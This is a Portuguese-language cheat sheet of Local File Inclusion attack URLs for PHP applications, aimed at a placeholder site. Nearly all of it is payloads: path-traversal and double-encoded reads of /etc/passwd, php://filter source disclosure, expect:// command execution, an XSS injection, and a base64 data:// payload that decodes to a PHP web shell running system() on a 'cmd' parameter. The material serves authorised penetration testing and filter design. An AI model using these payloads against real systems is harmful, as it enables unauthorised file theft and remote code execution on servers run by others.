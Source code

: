 ### Bypass Filters 

```yaml
https://www.teste.com.br/arquivo.php?img=.../.../.../.../.../.../etc/passwd
https://www.teste.com.br/arquivo.php?img=..//..//..//..//..//..//etc/passwd
https://www.teste.com.br/arquivo.php?img=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
https://www.teste.com.br/arquivo.php?img=/var/www/html/../../../../../../etc/passwd
```

### Double URL Encode

```yaml
https://www.teste.com.br/arquivo.php?img=%252e%252e%252fetc%252fpasswd
```

# LFI Usando PHP Wrapper && Protocolos
> Segundo a documentação do PHP, O PHP fornece vários fluxos de E/S variados que permitem o acesso a Fluxos de entrada e saída próprios do PHP, entrada padrão, saída e erro descritores de arquivos, fluxos de arquivos temporários na memória e com backup em disco e filtros que podem manipular outros recursos de arquivo à medida que são lidos e escrito para. 

## php://filter
> É um tipo de meta-wrapper projetado para permitem realizar operações básicas de modificação nos dados antes de serem lidos.
```yaml
https://www.teste.com.br/arquivo.php?img=php://filter/convert.base64-encode/resource=index.php
```
## file://
> É possível ler arquivos do sistema

```yaml
https://wwww.teste.com.br/arquivo.php?img=file:///etc/passwd
```
## data://
> Permite a inclusão de pequenos itens de dados como dados "imediatos", como se tivessem sido incluídos externamente. (RFC 2397)

```yaml
https://wwww.teste.com.br/arquivo.php?img=data://text/plain,<?php phpinfo(); ?>
http://www.teste.com/arquivo.php?img=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```
## Curiosidade
> É possível injetar um XSS utilizando essa técnica do data://
```yaml
https://wwww.teste.com.br/arquivo.php?img=data:application/x-httpd-php;base64,PHNjcmlwdD4gYWxlcnQoMSkgPC9zY3JpcHQ+  (<script> alert(1) </script>) 
```
## expect://
> Segundo a documentação o php esse wrapper é possível interagir com processos através de PTY
```yaml
http://www.teste.com/arquivo.php?img=expect://ls
http://www.teste.com/arquivo.php?img=expect://id
```
